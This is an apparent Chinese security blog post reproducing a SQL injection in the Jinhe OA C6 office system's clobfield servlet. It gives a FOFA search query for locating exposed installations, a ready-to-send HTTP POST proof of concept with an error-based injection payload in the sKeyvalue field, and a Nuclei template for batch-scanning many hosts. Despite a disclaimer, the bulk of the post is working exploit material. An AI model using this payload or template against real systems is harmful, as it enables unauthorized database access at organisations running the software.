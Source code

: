 # 原创
：  漏洞复现--金和OA clobfield SQL注入

# 漏洞复现--金和OA clobfield SQL注入

## 免责声明：

**文章中涉及的漏洞均已修复，敏感信息均已做打码处理，文章仅做经验分享用途，切勿当真，未授权的攻击属于非法行为！文章中敏感信息均已做多层打马处理。传播、利用本文章所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任，一旦造成后果请自行负责**

### 一：漏洞描述

金和OA协同办公管理系统C6软件（简称金和OA），本着简单、适用、高效的原则，贴合企事业单位的实际需求，实行通用化、标准化、智能化、人性化的产品设计，充分体现企事业单位规范管理、提高办公效率的核心思想，为用户提供一整套标准的办公自动化解决方案，以帮助企事业单位迅速建立便捷规范的办公环境。该产品存在SQL注入漏洞

### 二：漏洞影响版本

金和OA

### 三：网络空间测绘查询

fofa:<br/> `app="金和网络-金和OA"`<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/38b53fa6f02d9029fa9bf94d96564fb7.jpeg"/>

### 四：漏洞复现

<img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/a27375f2ae0496eaab044a1f18f5438d.jpeg"/><br/> POC:

```
POST /jc6/servlet/clobfield HTTP/1.1
Host: X.X.X.X
User-Agent: Mozilla/5.0 (X11; OpenBSD i386) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/36.0.1985.125 Safari/537.36
Content-Length: 158
Accept: */*
Accept-Encoding: gzip, deflate, br, zstd
Content-Type: application/x-www-form-urlencoded
SL-CE-SUID: 77

key=readClob&amp;sImgname=filename&amp;sTablename=FC_ATTACH&amp;sKeyname=djbh&amp;sKeyvalue=1' and 1=convert(int,(select sys.fn_sqlvarbasetostr(HashBytes('MD5','12345'))))--+

```

<img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/9aa7bc6623040efbd65fcc1e1fba4e40.jpeg"/><br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/ecf37129fe794614c710d0edfc93bf85.jpeg"/>

### 五：批量检测

```
id: JinHe-OA-clobfield-SQL-inject

info:
  name: JinHe-OA-clobfield-SQL-inject
  author: 芝士土拨鼠
  severity: high
  description: 金和OA协同办公管理系统C6软件（简称金和OA），本着简单、适用、高效的原则，贴合企事业单位的实际需求，实行通用化、标准化、智能化、人性化的产品设计，充分体现企事业单位规范管理、提高办公效率的核心思想，为用户提供一整套标准的办公自动化解决方案，以帮助企事业单位迅速建立便捷规范的办公环境。该产品存在SQL注入漏洞

requests:
  - raw:
      - |-
        POST /jc6/servlet/clobfield HTTP/1.1
        Host: {{Hostname}}
        User-Agent: Mozilla/5.0 (X11; OpenBSD i386) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/36.0.1985.125 Safari/537.36
        Content-Length: 158
        Accept: */*
        Accept-Encoding: gzip, deflate, br, zstd
        Content-Type: application/x-www-form-urlencoded
        SL-CE-SUID: 77

        key=readClob&amp;sImgname=filename&amp;sTablename=FC_ATTACH&amp;sKeyname=djbh&amp;sKeyvalue=1' and 1=convert(int,(select sys.fn_sqlvarbasetostr(HashBytes('MD5','12345'))))--+

    matchers-condition: and
    matchers:
      - type: binary
        part: body
        binary:
          - e5b086206e766172
      - type: status
        status:
          - 200

```
